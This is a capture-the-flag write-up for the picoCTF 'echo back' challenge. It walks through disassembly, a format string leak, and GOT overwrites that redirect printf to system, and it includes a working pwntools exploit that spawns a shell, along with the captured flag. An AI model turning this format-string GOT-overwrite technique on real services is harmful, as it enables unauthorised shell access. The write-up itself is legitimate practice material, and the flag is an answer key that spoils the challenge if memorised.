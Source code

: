 > echo back - Points: 500 - (Solves: 73)
> This program we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with nc 2018shell1.picoctf.com 22462.

Open the file in ida

They are using system to echo a message.
```
push    offset aEchoInputYourM ; "echo input your message:"
call    _system
```

There is also a format string vulnerability.
```
lea     eax, [ebp+var_8C]
push    eax
call    _printf
```

`[ebp+var_8C]` is a buffer we can write to which means we have control of the format string.


The address to aEchoInputYourM is at 0x08048720
```
.rodata:08048720 aEchoInputYourM
```

Address: `0x8048720`


Finding the location of our buffer:
```
% python -c "print 'AAAA' + '%p '*15" | nc 2018shell1.picoctf.com 22462
input your message:
AAAA0xffed915c 0x7f 0xf75e67bd 0xf7749a70 0x8048270 0x1 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070


Thanks for sending the message!
```

7th argument is the start of our stack: `%7$p`



Calculating return address location:
`0xffffd4f0 - 0xffffd59c = -172`
`172 / 4 = 43`

Return address is at `%43$p`


Our attack will work in 2 steps. We will overwrite the address 0x8048720 so that it contains our /bin/sh address and then we will overwrite the return address of vuln so that we can jump back to the correct location where system is called with /bin/sh as argument.

Scrape that...


Find the start of the got table:
`maintenance info sections`

Get the got address and check what is loaded to it.
```
gef➤  x 0x804a010+12
0x804a01c:      0x08048456
gef➤  x 0x08048456
0x8048456 <puts@plt+6>: 0x00002068
```

Puts got table address: `0x804a01c`


`set *0x804A01C=0x08048460`

1. Use the first overwrite to write a jump from puts to `0x080485E1` just after the `system` call
2. Use the second overwrite to write a jump from printf to system
3. Use the 3rd write to input /bin/sh into the buffer so that system will be called with /bin/sh

Exploit:
```
from pwn import *

c = connect("2018shell1.picoctf.com", 22462)

system_plt = 0x08048460

# GOT entries
puts = 0x804A01C
printf = 0x804A010

first_jmp = 0x080485E1

writes = {
    puts:first_jmp,
    printf:system_plt
}

c.sendline(fmtstr_payload(7,writes,0))
c.sendline("/bin/sh")
c.interactive()
```

Flag: `picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_a9521c84}`
